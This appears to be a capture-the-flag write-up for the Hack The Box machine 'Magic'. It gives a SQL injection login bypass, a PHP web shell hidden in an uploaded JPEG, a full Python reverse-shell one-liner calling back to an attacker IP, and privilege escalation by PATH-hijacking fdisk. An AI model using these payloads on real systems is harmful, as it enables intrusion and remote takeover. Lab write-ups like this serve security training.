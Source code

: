 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do a NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
Let's click on the login link.
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried default top 10 usernames and passwords combos but nothing.
<br>
Since we have no credentials, we can try SQL injection
<br>
username: 'or '1'='1
<br>
password: 'or '1'='1
</p>

<img src="/assets/img/htb/Magic/04_login_sql.png">

<p>

We get prompted with an upload page for images.

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.
<br>
Let's first upload a JPEG file and see where it saves it to.
<br>
When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/
<br>
Now let's do some magic
<br>
Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page
<br>
In another terminal run nc -lvnp 9991
<br>
The only payload I found to work was the python method
<br>
Now point your browser or use curl to the following URL
<br>
http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>

<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!
<br>
Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>
<br>
NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 
</p>

<p>

After enumerating a bit we get the following.

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
<br>
This is not the password for the user.
<br>
Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump.

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
<br>
Let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!
<br>
Now for root.
<br>
We first have to upload some enumerating scripts.
<br>
I uploaded both LinEnum and LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.
<br>
There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?
<br>
First in another terminal run our nc -lvnp 9994 
<br>
Back to the magic terminal and let us add /tmp into the system PATH
<br>
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
<br>
We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!
<br>
Let us pop to the terminal where we can our nc.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
